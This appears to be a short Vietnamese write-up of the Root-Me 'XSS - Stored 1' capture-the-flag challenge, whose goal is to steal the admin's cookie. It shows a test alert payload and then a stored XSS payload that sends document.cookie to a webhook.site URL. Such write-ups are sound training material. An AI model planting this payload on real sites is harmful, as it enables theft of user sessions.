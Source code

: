 ## Root-me-3: [XSS - Stored 1](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-1)

Để hoàn thành lab cần phải lấy được cookie của admin

Test payload vào phần message: `<script>alert(1)</script>`

![image.png](Images/image%208.png)

→ alert thành công!

![image.png](Images/image%209.png)

Tạo 1 tag `<p>` để lưu payload trên phần comment của web và gửi cookie của bất kỳ ai vào phần này về webhook

payload: `<p><script>document.location="[https://webhook.site/2d5ca3fe-362e-49fa-a0b5-9b1c76f8a280?data=](https://webhook.site/2d5ca3fe-362e-49fa-a0b5-9b1c76f8a280?data=)".concat(document.cookie)</script></p>`
